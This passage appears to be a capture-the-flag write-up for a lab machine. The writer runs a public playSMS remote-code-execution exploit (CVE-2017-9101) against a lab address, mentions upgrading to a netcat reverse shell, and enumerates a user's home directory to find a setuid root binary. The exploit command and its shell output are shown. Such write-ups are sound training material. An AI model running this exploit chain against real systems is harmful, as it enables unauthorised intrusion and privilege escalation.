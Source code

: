 ## then i found a exploit for rce on github https://github.com/jasperla/CVE-2017-9101

## i download it and use it command given below

```console
$ python3 playsmshell.py --url http://10.10.10.111:9999/playsms --password idkwhatispass -i  
[*] Grabbing CSRF token for login 
[*] Attempting to login as admin 
[+] Logged in! 
[*] Grabbing CSRF token for phonebook import 
[+] Entering interactive shell; type "quit" or ^D to quit 
> id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
 
> 
```

## we got www-data shell  then i use pentest monkey php reverse shell and gain a better shell using netcat listner.

## then i go to /home/ayush directory and list what inside in this directory using ls -la command got a suspicious directory name as .binary

```console
www-data@frolic:/home/ayush$ ls -la 
ls -la 
total 36 
drwxr-xr-x 3 ayush ayush 4096 Sep 25  2018 . 
drwxr-xr-x 4 root  root  4096 Sep 23  2018 .. 
-rw------- 1 ayush ayush 2781 Sep 25  2018 .bash_history 
-rw-r--r-- 1 ayush ayush  220 Sep 23  2018 .bash_logout 
-rw-r--r-- 1 ayush ayush 3771 Sep 23  2018 .bashrc 
drwxrwxr-x 2 ayush ayush 4096 Sep 25  2018 .binary 
-rw-r--r-- 1 ayush ayush  655 Sep 23  2018 .profile 
-rw------- 1 ayush ayush  965 Sep 25  2018 .viminfo 
-rwxr-xr-x 1 ayush ayush   33 Sep 25  2018 user.txt
```

## inside this directory got a binary file  named as rop. 

```console
www-data@frolic:/home/ayush/.binary$ ls -la 
ls -la 
total 16 
drwxrwxr-x 2 ayush ayush 4096 Sep 25  2018 . 
drwxr-xr-x 3 ayush ayush 4096 Sep 25  2018 .. 
-rwsr-xr-x 1 root  root  7480 Sep 25  2018 rop
```
